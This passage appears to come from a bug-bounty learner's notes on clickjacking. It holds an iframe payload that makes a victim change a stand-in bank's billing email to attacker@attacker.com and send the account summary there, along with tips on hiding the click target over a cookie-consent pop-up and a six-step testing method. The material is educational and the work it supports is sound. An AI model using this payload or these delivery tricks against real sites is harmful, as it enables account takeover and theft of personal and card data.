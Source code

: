 ```html
 <!--changing the victim email first to your own account-->
 <iframe 
 src="https://bank.example.com/change_billing_email?email=attacker@attacker.com" 
 width="500" height="500">
 </iframe>
 <!--then make the victim send an account summary to your email address to leak the information contained in the account summary report-->
 <iframe src="https://bank.example.com/send_summary" width="500" height="500">
 </iframe>
</html>
```
- you might be able to collect data including the street address, phone numbers, and credit card information associated with the account!
- Note that for this attack to succeed, the victim user would have to click the attacker’s site twice

## Chaining with CSRF 
Exploit Clickjacking to achieve CSFRF
look at [[Cross-Site Request Forgery (CSRF)#Exploit Clickjacking]] for more info
# A Note on Delivering the Clickjacking Payload
Often in bug bounty reports, you’ll need to show companies that real attackers could effectively exploit the vulnerability you found. That means you need to understand how attackers can exploit clickjacking bugs in the wild

For the attack to succeed, the attacker would have to construct a site that is convincing enough for users to click
check out the Social-Engineer Toolkit(https://github.com/trustedsec/social-engineer-toolkit/)

>[!Vickie Li]
>In my experience, the most effective location in which to place the hidden button is directly on top of a Please Accept That This Site Uses Cookies! pop-up. Users usually click this button to close the window without much thought

# Finding Your First Clickjacking Vulnerability!
 1. Spot the state-changing actions on the website and keep a note of their URL locations. Mark the ones that require only mouse clicks to execute for further testing 
 2. Check these pages for the X-Frame-Options, Content-Security-Policy header, and a SameSite session cookie. If you can’t spot these protective features, the page might be vulnerable!
 3. Craft an HTML page that frames the target page, and load that page in a browser to see if the page has been framed
 4. Confirm the vulnerability by executing a simulated clickjacking attack on your own test account
 5. Craft a sneaky way of delivering your payload to end users, and consider the larger impact of the vulnerability 
 6. Draft your first clickjacking report!
# References
- [Bug Bounty Bootcamp book](https://www.amazon.eg/-/en/Bug-Bounty-Bootcamp-Reporting-Vulnerabilities/dp/1718501544)
- [PortsWigger-Web Security Academy | Clickjacking](https://portswigger.net/web-security/clickjacking)
-  [WSTG - v4.2 | Clickjacking Testing](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/11-Client-side_Testing/09-Testing_for_Clickjacking)
-  [javascript info](https://javascript.info/clickjacking)
- [HackTricks | clickjacking](https://book.hacktricks.xyz/pentesting-web/clickjacking)
- [book of Bug Bounty Tips](https://gowsundar.gitbook.io/book-of-bugbounty-tips/clickjacking)
- [OWASP Cheat Sheet | Clickjacking Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html)
